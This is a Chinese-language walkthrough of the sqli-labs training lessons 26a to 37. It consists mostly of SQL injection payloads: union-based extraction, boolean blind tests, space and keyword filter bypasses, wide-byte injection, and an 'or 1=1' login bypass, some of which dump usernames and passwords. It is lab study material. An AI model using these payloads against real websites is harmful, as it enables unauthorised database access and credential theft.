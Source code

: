 # less-26a
本题为')闭合

页面无报错，不可使用报错注入，使用基础union注入

空格被过滤。使用%a0代替

?id=1')%a0union%a0select%a01,2,3||('1')=('1

?id=1')%a0union%a0select%a01,database(),3||('1')=('1

?id=111')union%a0select%a01,(select%a0group_concat(schema_name)%a0from%a0infoorrmation_schema.schemata),3||('1')=('1

此处只能使用子查询，不能用union select 1,2,3 from ....这类查询，因为||的优先级高于from，语句会被错误解析导致无回显

# less-27
本题过滤union和select、空格与注释符

union select使用大小写绕过，空格使用%a0，句尾构造等式闭合语句

?id=1'%a0unIon%a0selecT%a01,2,3||'1'='1

?id=1000'%a0unIon%a0SelecT%a01,(selEct %a0group_concat(schema_name)%a0from%a0information_schema.schemata),3||'1'='1

# less-27a
提示使用盲注，那这里就使用布尔盲注进行注入，实际上联合查询也可以

首先测试发现and没有被过滤，过滤了空格、注释符等等

双引号闭合，在句尾构造等式闭合语句

?id=1"%a0and%a0ascii(substr(database(),1,1))>=100%a0and%a0"1"="1

# less-28
同上两题差别别不大

?id=100%27)%a0unIon%a0selECT%a01,database(),3||('1')=('1

?id=100')%a0unIon%a0selECT%a01,(select%a0group_concat(schema_name)%a0from%a0information_schema.schemata),3||('1')=('1

# less-29
不知道过滤啥了，正常union注入就出来了

：你到底保护了什么啊！

?id=-1' union select 1,database(),group_concat(username,'-',password) from security.users--+

?id=-1' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database()--+

# less-30

?id=100" union select 1,2,3 --+

?id=100" union select 1,database(),3 --+

?id=100" union select 1,database(),group_concat(schema_name) from information_schema.schemata --+

# less-31

?id=1000") union select 1,2,3 --+

?id=1000") union select 1,database(),3 --+

?id=1000") union select 1,database(),group_concat(schema_name) from information_schema.schemata --+

# less-32

本管使用宽字节注入

?id=10000%df’ 判断闭合方式为单引号

?id=10000%df%27%20union%20select%201,2,3%20--+

?id=10000%df' union select 1,database(),3 --+

?id=10000%df' union select 1,database(),group_concat(schema_name) from information_schema.schemata --+

# less-33

与上题相同

# less-34

这里用不了order by 或 group by 直接使用union select一个个测试

uname=�' union select 1,2 #&passwd=123&Submit=Submit

uname=�' union select 1,group_concat(schema_name) from information_schema.schemata #&passwd=123&Submit=Submit

# less-35

本题同为宽字节注入，区别在于是数字型闭合，根本不需要宽字节。可以从以下报错看出

 '\' LIMIT 0,1' 
 
不要和单引号闭合混淆

?id=1000 union select 1,database(),3 --+

# less-36

依旧是宽字节注入，单引号闭合

?id=1000%df' union select 1,database(),3 --+

# less-37

宽字节post注入

使用万能密钥

username：�' or 1=1 #

uname=�' union select 1,database() #&passwd=123&Submit=Submit
